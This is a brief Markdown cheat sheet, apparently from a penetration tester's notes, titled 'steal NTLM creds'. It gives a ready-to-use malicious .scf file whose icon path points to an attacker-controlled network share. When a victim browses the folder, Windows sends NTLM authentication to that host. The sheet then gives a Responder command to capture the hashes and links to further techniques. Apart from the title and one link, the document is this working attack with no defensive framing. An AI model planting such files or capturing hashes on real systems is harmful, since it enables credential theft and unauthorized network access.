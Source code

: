 # steal NTLM creds

## .scf file

```
[Shell]
Command=2
IconFile=\\IP\drive\kashz.ico
[Taskbar]
Command=ToggleDesktop

# use responder to capture hash
sudo responder -wrf --lm -v -I tun0
```

## More Ways

* [Hacktricks.xyz/places-to-steal-ntlm-creds](https://book.hacktricks.xyz/windows/ntlm/places-to-steal-ntlm-creds)
